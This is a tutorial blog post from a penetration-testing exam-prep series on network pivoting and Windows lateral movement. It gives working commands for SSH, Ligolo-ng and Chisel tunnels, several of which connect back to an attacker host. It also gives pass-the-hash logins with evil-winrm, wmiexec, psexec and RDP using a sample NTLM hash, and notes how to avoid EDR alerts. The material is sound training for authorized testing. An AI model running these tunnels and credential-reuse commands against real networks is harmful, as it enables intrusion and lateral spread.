


In real-world enterprise penetration tests and specifically within the **eCPPT (eLearnSecurity Certified Professional Penetration Tester)** practical exam, target database servers, Active Directory domain controllers, and internal file repositories are never directly exposed to the internet. Instead, they reside behind strict stateful firewalls and deeply segmented network layers (DMZs, corporate subnets, and isolated database enclaves).

To compromise an entire network, a penetration tester must master **Pivoting, Port Forwarding, and Lateral Movement**. In this deep dive, we explore how to transform a single dual-homed host into a high-performance routing bridge, compare traditional SSH tunnels with modern Layer-3 routing via **Ligolo-ng**, and execute lateral movement using native Windows administration protocols.

---

### Series Navigation

| **Previous Part** | **Current Part** | **Next Part** |
| :---: | :---: | :---: |
| [Part 5: Windows & Linux Privilege Escalation](/posts/ecppt-v3-part-5-privilege-escalation-playbook/) | **Part 6: Lateral Movement & Pivoting** | [Part 7: Command and Control (C2) Infrastructure](/posts/ecppt-v3-part-7-command-and-control-c2/) |

---

## Key Takeaways

* **The Dual-Homed Pivot Concept**: When a host possesses two network interface cards (NICs)—one connected to the internet/DMZ and another to an internal subnet—it acts as an architectural pivot point, allowing an attacker to route packets into non-routable private networks.
* **The SSH Port Forwarding Trifecta**:
  * **Local Port Forwarding (`-L`)**: Binds a local port on the attacker's machine and routes traffic through the pivot host to a specific internal IP and port.
  * **Remote Port Forwarding (`-R`)**: Binds a port on the pivot host and directs incoming traffic backward through the SSH tunnel to a listener on the attacker's machine (essential for reverse shells).
  * **Dynamic Port Forwarding (`-D`)**: Turns the pivot host into a dynamic SOCKS4/5 proxy, allowing arbitrary multi-port scanning via `proxychains`.
* **Layer-3 Pivoting with Ligolo-ng**: Traditional SOCKS proxies via `proxychains` suffer from high latency, broken UDP/ICMP traffic, and unstable Nmap scans. **Ligolo-ng** creates a virtual TUN interface on the attacker's operating system, enabling direct subnet routing via `ip route` without requiring `proxychains`.
* **Chisel HTTP/WebSockets Tunneling**: Bypasses restrictive outbound firewalls by encapsulating SOCKS5 proxy tunnels entirely within standard HTTP/HTTPS headers and WebSockets streams.
* **Native Windows Lateral Movement Protocols**: Transitioning between machines using legitimate administrative management channels: **WinRM** (port 5985/5986), **WMI** (ports 135/445), **SMB** (port 445), and **RDP** with Pass-the-Hash.

---

## 1. Enterprise Multi-Tier Pivoting Topology

The following diagram illustrates the standard multi-tier architecture encountered in advanced penetration tests:



---

## 2. SSH Port Forwarding Deep-Dive

If valid credentials or an SSH private key are recovered for the pivot machine:

```mermaid
flowchart TD
    subgraph LocalForward ["1. Local Port Forwarding (ssh -L)"]
        direction LR
        L_Attacker["Attacker: 127.0.0.1:8080"] -->|Encrypted SSH Tunnel| L_Pivot["Pivot Host: 10.10.10.50"] -->|Internal TCP| L_Target["Internal Target: 172.16.1.50:80"]
    end
    
    subgraph RemoteForward ["2. Remote Port Forwarding (ssh -R)"]
        direction LR
        R_Target["Internal Workstation"] -->|Connects to Port 4444| R_Pivot["Pivot Host: 172.16.1.10:4444"] -->|Traverses Reverse Tunnel| R_Attacker["Attacker Listener: 10.10.14.5:4444"]
    end
    
    subgraph DynamicForward ["3. Dynamic SOCKS Proxy (ssh -D)"]
        direction LR
        D_Tools["Security Tools (proxychains)"] -->|SOCKS5 Proxy Protocol| D_Attacker["127.0.0.1:9050"] -->|Dynamic SSH Stream| D_Pivot["Pivot Host"] -->|Direct Communication| D_Net["Entire 172.16.1.0/24 Subnet"]
    end
```



### Tactical Commands for SSH Tunneling:

#### 1. Local Port Forwarding:
Exposing an internal database (172.16.1.50:3306) onto the attacker's localhost at port 3306:
```bash
ssh -N -f -L 3306:172.16.1.50:3306 user@10.10.10.50
# Now connect locally:
mysql -u root -p -h 127.0.0.1 -P 3306
```

#### 2. Remote Port Forwarding:
Receiving a reverse shell from an isolated machine that cannot route directly to the internet:
```bash
# On the pivot host, open port 4444 and forward connections back to Kali (10.10.14.5:4444):
ssh -N -f -R 4444:10.10.14.5:4444 attacker@10.10.14.5
```

#### 3. Dynamic SOCKS Proxying via Proxychains:
```bash
ssh -N -f -D 9050 user@10.10.10.50
```

Configure `/etc/proxychains4.conf`:
```text
# Ensure dynamic_chain is active and specify the SOCKS port at the bottom:
socks5 127.0.0.1 9050
proxy_dns
```

Execute tools through the dynamic proxy:
```bash
proxychains nmap -sT -Pn -p 22,80,445 172.16.1.50
proxychains crackmapexec smb 172.16.1.0/24
```

---

## 3. High-Speed Layer-3 Pivoting with Ligolo-ng

**Ligolo-ng** replaces slow, fragile SOCKS proxies by creating a virtual Layer-3 network interface (`TUN`) on the attacker's operating system. Once an agent connects, the attacker adds native OS routes to the remote subnet:



### Ligolo-ng Execution Steps:

#### 1. On the Attacker Machine (Kali Linux):
```bash
# Create and activate the TUN device
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

# Start the Ligolo proxy listening on port 11601
./proxy -selfcert -laddr 0.0.0.0:11601
```

#### 2. On the Compromised Pivot Host:
```cmd
# Windows target:
agent.exe -connect 10.10.14.5:11601 -ignore-cert

# Linux target:
./agent -connect 10.10.14.5:11601 -ignore-cert
```

#### 3. Activating the Tunnel:
Inside the interactive Ligolo proxy shell:
```text
ligolo-ng » session
[1] User@PIVOT-HOST - 10.10.10.50
ligolo-ng » start
[+] Starting tunnel to agent...
```

From another terminal on Kali, add the route:
```bash
sudo ip route add 172.16.1.0/24 dev ligolo

# Verify native routing without proxychains:
ping 172.16.1.50
nmap -sS -Pn -p 80,445,3389 172.16.1.0/24
```

---

## 4. Chisel: HTTP/WebSockets Reverse Tunnels

When outbound traffic is strictly restricted to web inspection ports (TCP 80 and 443), **Chisel** encapsulates full TCP/SOCKS traffic inside clean HTTP/WebSockets streams:

```bash
# 1. On Kali: Start the Chisel server in reverse mode
chisel server --reverse --port 8000

# 2. On the pivot target: Connect back to Kali and request a reverse SOCKS proxy
chisel client 10.10.14.5:8000 R:1080:socks
```

This immediately establishes a SOCKS5 proxy on `127.0.0.1:1080` on Kali Linux!

---

## 5. Windows Lateral Movement Playbook

Once the network tunnel is established, we laterally move to adjacent domain systems using harvested credentials:

### 1. Evil-WinRM (Port 5985 HTTP / 5986 HTTPS)
Windows Remote Management (WinRM) is the standard administration protocol for Windows systems. It executes commands natively without triggering typical EDR service-creation alerts:

```bash
evil-winrm -i 172.16.1.50 -u Administrator -H 7fc07bbe74664a7726da442b439aa4b5
```

### 2. Impacket WMIExec (Ports 135 RPC / 445 SMB)
WMIExec is agentless and highly stealthy; it does not register a new Windows service. Instead, it invokes the `Win32_Process.Create` method over DCOM:

```bash
wmiexec.py -hashes :7fc07bbe74664a7726da442b439aa4b5 Administrator@172.16.1.50 "whoami && ipconfig"
```

### 3. Impacket PsExec (Port 445 SMB)
Uploads an administrative executable, creates a transient service (`PSEXESVC`), and returns an immediate interactive shell with `NT AUTHORITY\SYSTEM` privileges:

```bash
psexec.py -hashes :7fc07bbe74664a7726da442b439aa4b5 Administrator@172.16.1.50
```

### 4. Remote Desktop Protocol (RDP) with Pass-the-Hash
When Restricted Admin Mode is enabled, operators can establish full GUI sessions using NTLM hashes:

```bash
xfreerdp /v:172.16.1.50 /u:Administrator /pth:7fc07bbe74664a7726da442b439aa4b5 /cert:ignore
```

---

## References & Further Reading

1. **Ligolo-ng Repository & Documentation**: [https://github.com/nico-cha/ligolo-ng](https://github.com/nico-cha/ligolo-ng)
2. **Chisel: Fast TCP/UDP Tunnel over HTTP** by Jaime Pillora: [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
3. **Evil-WinRM: The Ultimate WinRM Shell**: [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)
4. **RFC 4251: The Secure Shell (SSH) Protocol Architecture**.
5. **MITRE ATT&CK Matrix**:
   * Technique T1090: Proxy (Multi-hop Proxies, External/Internal Proxies)
   * Technique T1021: Remote Services (SMB, WinRM, RDP)

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
